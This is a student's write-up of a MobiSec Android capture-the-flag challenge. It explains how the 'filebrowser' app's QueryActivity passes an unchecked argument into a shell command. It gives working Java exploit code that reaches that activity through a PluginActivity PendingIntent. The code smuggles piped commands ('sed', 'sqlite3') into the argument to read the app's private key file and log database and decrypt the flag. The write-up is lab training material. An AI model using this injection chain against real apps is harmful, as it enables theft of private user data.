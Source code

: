 # Solution

## Description of the problem

A GDPR-compliant file browser.

## Solution

1. Analyzing the code.

```
  public String getFlag() throws Exception {
        byte[] aesKey = getAesKey(this);
        String encOper = bin2hex(encrypt("genflag".getBytes(), aesKey));
        Uri infoEntries = Uri.parse("content://com.mobisec.provider.Log/log");
        Cursor c = getContentResolver().query(infoEntries, null, null, null, "oper");
        if (c.moveToFirst()) {
            do {
                c.getString(c.getColumnIndex("id"));
                String oper = c.getString(c.getColumnIndex("oper"));
                String arg = c.getString(c.getColumnIndex("arg"));
                if (oper.equals(encOper)) {
                    return new String(decrypt(hex2bin(arg), aesKey));
                }
            } while (c.moveToNext());
            return null;
        }
        return null;
    }
```

From this ```getFlag``` function, we know that the flag is hidden in a table ```log``` in ```com.mobisec.provider.Log``` database, and it is in the first one row in the table. The flag is in the ```arg``` column and it is stored as hex and encrypted. To futher using the provider, I use the related permission:

```
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
```

And then we can see the calling order here is: ```MainActivity -> QueryActivity```. In ```QueryActivity```, I can use operations ```ls```, ```du```, and ```cat```. The other operations will be rejected. And ```cat``` is not available, since the output will only be ```"cat has been momentarily disabled for security reasons"```. But good part is that the code only check the ```oper```, but not the ```arg```, which will be used for me to do the commandline escape. I only need to add ```|```, then I can continue my own command. And then all the output will be written in log ```/sdcard/browser.log```.

```
String[] cmd = {"sh", "-c", "ls " + arg};
p = Runtime.getRuntime().exec(cmd);
```

When I tried to call ```QueryActivity```, I read the Manifest. Only ```PluginActivity``` is accessable, if I have permission ```"com.mobisec.filebrowser.permission.PLUGIN"```, but ```QueryActivity``` is not. Luckily, ```PluginActivity``` can call ```QueryActivity```, and pass the parameters. After add the use-permission of ```"com.mobisec.filebrowser.permission.PLUGIN"```. Then the chain is ```MainActivity -> PluginActivity -> QueryActivity -> Log database```.

```
        <activity android:name="com.mobisec.filebrowser.QueryActivity" android:exported="false"/>
        <activity android:name="com.mobisec.filebrowser.AboutActivity" android:exported="false"/>
        <activity android:name="com.mobisec.filebrowser.PluginActivity" android:permission="com.mobisec.filebrowser.permission.PLUGIN">
```

2. After Analysis, we know the chain is ```MainActivity -> PluginActivity -> QueryActivity -> Log database```, and I need to get the key before going to log database. Here is my code to achieve this.

```
try {

            Intent intent = new Intent();
            intent.setComponent(new ComponentName("com.mobisec.filebrowser", "com.mobisec.filebrowser.PluginActivity"));
            startActivityForResult(intent, 0);
            Log.e(TAG, "call filebrowser");
        } catch (Exception e){
            Log.e(TAG, String.valueOf(e));
        }
```
Start tne ```com.mobisec.filebrowser.PluginActivity```, and wait for result. Define ```public void onActivityResult(int requestCode, int resultCode, Intent data)``` to get the result.

Since the ```QueryActivity``` will be sent as a ```Pending Intent```, I received it by:

```
Bundle bundle = data.getExtras();
final PendingIntent pendingIntent = (PendingIntent) bundle.get("pi");
```

Then I start using it to get the flag first. I print the key in shared preference, and then I can read the result in the log ```/sdcard/browser.log```. I extract the key by ```storedKey[0] = content.split(">")[1].split("<")[0];```, and use it later.
```
    final Intent vulnIntent = new Intent();
    vulnIntent.putExtra("debug", true);
    vulnIntent.putExtra("oper", "ls");
    vulnIntent.putExtra("arg", ". | sed -n 3p /data/data/com.mobisec.filebrowser/shared_prefs/keys.xml");

    try{
        pendingIntent.send(this, 0, vulnIntent, null, null);
        final Handler handler = new Handler();
        handler.postDelayed(new Runnable() {
            @Override
            public void run() {
                String content = readFileToString("/sdcard/browser.log");
                storedKey[0] = content.split(">")[1].split("<")[0];
                Log.e(TAG, storedKey[0]);
            }

            private String readFileToString(String filePath) {
                try (BufferedReader reader = new BufferedReader(new FileReader(filePath))) {
                    StringBuilder content = new StringBuilder();
                    String line;
                    while ((line = reader.readLine()) != null) {

                        content.append(line).append("\n");
                    }
                    return content.toString();
                } catch (IOException e) {
                    e.printStackTrace();
                    // Handle exceptions appropriately
                    return null;
                }
            }
            }, 2000);

        } catch (PendingIntent.CanceledException e) {
        Log.e(TAG, String.valueOf(e));
    }
```

After getting the key, I just need to get the flagfrom the first row in Log database inn ```arg``` conlumn, then decode it to binary and decrypt it with my key.

```
final Intent vulnIntent1 = new Intent();
vulnIntent1.putExtra("debug", true);
vulnIntent1.putExtra("oper", "ls");
vulnIntent1.putExtra("arg", ". | sqlite3 /data/data/com.mobisec.filebrowser/databases/LogDb \"select arg from log where id=1;\" > /sdcard/db");
```
I print the key to ```/sdcard/db```.

```
    pendingIntent.send(this, 0, vulnIntent1, null, null);
    final Handler handler = new Handler();
    handler.postDelayed(() -> {
        String content = readFileToString("/sdcard/db");
        String cipher = content;
        Log.e(TAG, cipher);
        try {
            try {
                byte[] enkey = hexToBin(cipher);
                String flag = new String(decrypt(enkey, getAesKey(storedKey[0])));
                Log.e(TAG, flag);
            } catch (Exception e) {
                Log.e(TAG, String.valueOf(e));
                Log.e(TAG, Arrays.toString(e.getStackTrace()));
                throw new RuntimeException(e);
            }

```

Decode it to binary and decrypt it with the key.

I finally get the flag.

## Optional Feedback

So so so so difficult.
